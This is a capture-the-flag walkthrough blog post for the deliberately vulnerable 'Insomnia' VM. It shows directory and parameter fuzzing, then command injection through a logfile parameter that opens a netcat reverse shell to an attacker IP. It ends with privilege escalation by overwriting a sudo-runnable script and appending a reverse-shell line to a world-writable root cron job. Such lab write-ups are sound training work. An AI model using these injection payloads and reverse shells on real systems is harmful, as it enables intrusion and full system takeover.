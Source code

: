 ```yaml
---
layout: post
title:  "Case Study : Insomnia"
---
```

- You’ll find this vm in Vulnhub `https://www.vulnhub.com/entry/insomnia-1,644/`

- Also to HackMyVm `https://hackmyvm.eu/machines/machine.php?vm=Insomnia`

- Difficulty : easy

##  Youtube Video

<iframe width="700" height="415" src="https://www.youtube.com/embed/aSEaIK8kWD8" frameborder="0" allowfullscreen></iframe>

## Directory Scan

{% highlight sh %}
  dirb http://10.0.2.114:8080/ -X .php,.txt

  + http://10.0.2.114:8080/administration.php (CODE:200|SIZE:65)                                                   
  + http://10.0.2.114:8080/chat.txt (CODE:200|SIZE:1)                                                              
  + http://10.0.2.114:8080/index.php (CODE:200|SIZE:2899)                                                          
  + http://10.0.2.114:8080/process.php (CODE:200|SIZE:2)  
{% endhighlight %}

## Find GET parameter

{% highlight sh %}
  wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt --hh 65 'http://10.0.2.114:8080/administration.php?FUZZ=test'                                                               
  =====================================================================
  ID           Response   Lines    Word       Chars       Payload                                                                                                                                            
  =====================================================================

  000000485:   200        2 L      12 W       69 Ch       "logfile"    
{% endhighlight %}

## Reverse shell

```
http://10.0.2.114:8080/administration.php?logfile=chat.txt;nc -e /bin/sh 10.0.2.15 4444
```

- My machine

{% highlight sh %}
  nc -lvp 4444
  www-data@insomnia:~$ cd /home/julia
  www-data@insomnia:~$ cat user.txt
{% endhighlight %}

## Priv Esc to Julia

{% highlight sh %}
  www-data@insomnia:~/julia$ sudo -l
  (julia) NOPASSWD: /bin/bash /var/www/html/start.sh

  www-data@insomnia:~$ cd /var/www/html

  www-data@insomnia:/var/www/html$ ls -la | grep start.sh
  -rwxrwxrwx 1 root     root       20 Dec 21 04:18 start.sh

  www-data@insomnia:/var/www/html$ cat start.sh
  cat start.sh
  php -S 0.0.0.0:8080
{% endhighlight %}

#### Edit start.sh

{% highlight sh %}
  www-data@insomnia:/var/www/html$ cat start.sh
  cat start.sh
  php -S 0.0.0.0:8080

  www-data@insomnia:/var/www/html$ echo "/bin/bash" > start.sh

  www-data@insomnia:/var/www/html$ sudo -u julia /bin/bash /var/www/html/start.sh

  julia@insomnia:/var/www/html$ id
  id
  uid=1000(julia) gid=1000(julia) groups=1000(julia)
{% endhighlight %}

## cat /etc/crontab

{% highlight sh %}
  julia@insomnia:~$ cat /etc/crontab
  # Example of job definition:
  # .---------------- minute (0 - 59)
  # |  .------------- hour (0 - 23)
  # |  |  .---------- day of month (1 - 31)
  # |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
  # |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
  # |  |  |  |  |
  # *  *  *  *  * user-name command to be executed
  17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
  25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
  47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
  52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
  *  *    * * *   root    /bin/bash /var/cron/check.sh

  julia@insomnia:~$ cd /var/cron
  cd /var/cron
  julia@insomnia:/var/cron$ ls -la | grep check.sh
  ls -la | grep check.sh
  -rwxrwxrwx  1 root root  153 Dec 21 04:17 check.sh
{% endhighlight %}

## Target machine

- check.sh is writable, edit `check.sh`

{% highlight sh %}
  julia@insomnia:/var/cron$ echo "nc -e /bin/sh 10.0.2.15 5555" >> check.sh
{% endhighlight %}

## My machine, wait a little bit

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ nc -lvp 5555
  listening on [any] 5555 ...
  connect to [10.0.2.15] from 10.0.2.114 [10.0.2.114] 40348
  id
  uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

- This vm created by me, i enjoyed the process
